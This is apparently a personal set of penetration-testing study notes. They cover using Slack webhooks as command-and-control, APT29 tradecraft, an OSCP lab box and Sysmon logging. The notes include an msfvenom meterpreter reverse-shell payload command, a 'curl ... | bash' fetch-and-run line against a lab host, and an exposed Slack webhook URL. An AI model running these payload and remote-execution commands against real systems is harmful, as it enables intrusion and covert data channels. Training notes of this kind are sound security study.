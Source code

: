 # looking at ippsec techniques

# setting slack web hooks and C2
make the channel private
webhook integrations
https://hooks.slack.com/services/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

$body = COnvertTo-Json @{
    pretext = "Automated"
    text = "Hi there"
}
Invoke-RestMethod https://hooks.slack.com/services/
B0559PG99FC/Ej96lpmHngg1OV7htEKcfk3n -Method Post -Body $body -ContentType "application/json"

![](message_passed.png)

### using this as a C2

https://3xpl01tc0d3r.blogspot.com/2018/06/how-to-use-slack-as-c2-sever.html

using a slackshell


# analysing APT 29

https://unit42.paloaltonetworks.com/brute-ratel-c4-tool/

APT 29 uses lnk files in a zip format

ippsec.rocks

uses dll injection into microsoft updater

sudo msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.49.144 LPORT=4444 -f bin -o shellcode.bin

we can create one by cat shellcode.bin | msfvenom -p - -f exe -a x64 --platform win -o pleasesubscribe.exe

we can open this up in x64dbg
needs to be done in x64dbg file


# oscp tj null list

bashed

`nmap -sC -sV -oA nmap/initial 10.10.10.65`

based on httpd version you can decide on th elinux kernel

you can execute the file by host ing it using smiple HHTPserver and then saying curl http://10.10.10.1/new | bash

LInenum.sh

dirbuster go buster

sudo -u 

pentestmonkey reverse shell cheatsheet - https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

# sysmon blocking unwanted files

you cn download sysmon

rule file at Neo23x0/ sysmon-config

windows system 32 and then using sysmon -i sysmon-conifg

custom logs in sysmon is through using task scheduler

and then it can be hooked onto lack but the method no longer works
The format is UTF-16LE

allright so this an be done


